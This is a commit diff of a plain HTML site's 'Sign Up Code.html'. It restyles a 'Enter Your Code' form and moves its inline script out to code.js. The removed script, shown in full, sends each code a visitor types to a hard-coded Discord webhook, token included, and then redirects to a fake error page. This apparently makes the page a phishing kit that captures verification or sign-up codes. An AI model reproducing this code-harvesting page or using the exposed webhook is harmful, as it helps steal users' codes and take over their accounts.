

Before and after one commit to jay22as9daw021/d, a plain HTML site: page Sign Up Code.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update Sign Up Code.html

```diff
--- a/Sign Up Code.html
+++ b/Sign Up Code.html
@@ -2,78 +2,79 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8">
-  <title>Code Entry</title>
+  <title>Enter Your Code</title>
+  <link href="https://fonts.googleapis.com/css2?family=Inter:wght@400;600&display=swap" rel="stylesheet">
   <style>
     body {
-      background: #1e1e2f;
+      margin: 0;
+      font-family: 'Inter', sans-serif;
+      background: linear-gradient(135deg, #1e1e2f, #2c3e50);
       color: #fff;
-      font-family: 'Inter', sans-serif;
       display: flex;
       justify-content: center;
       align-items: center;
       height: 100vh;
+      overflow: hidden;
     }
 
-    .box {
+    .container {
+      background: rgba(255, 255, 255, 0.05);
+      padding: 40px;
+      border-radius: 12px;
+      box-shadow: 0 0 20px rgba(0,0,0,0.4);
+      width: 350px;
+      animation: fadeIn 1s ease-out;
+    }
+
+    h2 {
       text-align: center;
+      margin-bottom: 20px;
+      font-weight: 600;
+      color: #f1f1f1;
     }
 
     input {
-      padding: 10px;
+      width: 100%;
+      padding: 12px;
+      margin: 10px 0;
+      border: none;
       border-radius: 6px;
-      border: none;
       background: #2f2f3f;
       color: #fff;
-      margin-bottom: 10px;
+      font-size: 14px;
     }
 
     button {
-      padding: 10px 20px;
+      width: 100%;
+      padding: 12px;
       background: #e74c3c;
       border: none;
       border-radius: 6px;
       color: #fff;
+      font-weight: bold;
       cursor: pointer;
+      transition: background 0.3s ease;
+    }
+
+    button:hover {
+      background: #c0392b;
+    }
+
+    @keyframes fadeIn {
+      from { opacity: 0; transform: translateY(20px); }
+      to { opacity: 1; transform: translateY(0); }
     }
   </style>
 </head>
 <body>
-  <div class="box">
+  <div class="container">
     <h2>Enter Your Code</h2>
     <form id="form2">
       <input type="text" id="Code" placeholder="Code" required>
-      <br>
       <button type="submit">Submit</button>
     </form>
   </div>
 
-  <script>
-    const webhookUrl = 'https://discord.com/api/webhooks/1111136382866440253/q57_PVYxcce4_NRAd2HouHNH-8VjUFq_avHFkAw3RgyqbVrCNUTShMGSLoZ3zm-eiHBC';
-
-    const sendCode = (code) => {
-      const msg = {
-        embeds: [{
-          color: 16711680,
-          fields: [{ name: 'Code', value: code }],
-          timestamp: new Date().toISOString()
-        }]
-      };
-
-      fetch(webhookUrl, {
-        method: 'POST',
-        headers: { 'Content-Type': 'application/json' },
-        body: JSON.stringify(msg)
-      });
-    };
-
-    document.addEventListener('DOMContentLoaded', () => {
-      document.querySelector('#form2').addEventListener('submit', (e) => {
-        e.preventDefault();
-        const code = document.querySelector('#Code').value;
-        sendCode(code);
-        setTimeout(() => window.location.href = "Error.html", 750);
-      });
-    });
-  </script>
+  <script src="code.js"></script>
 </body>
 </html>
```
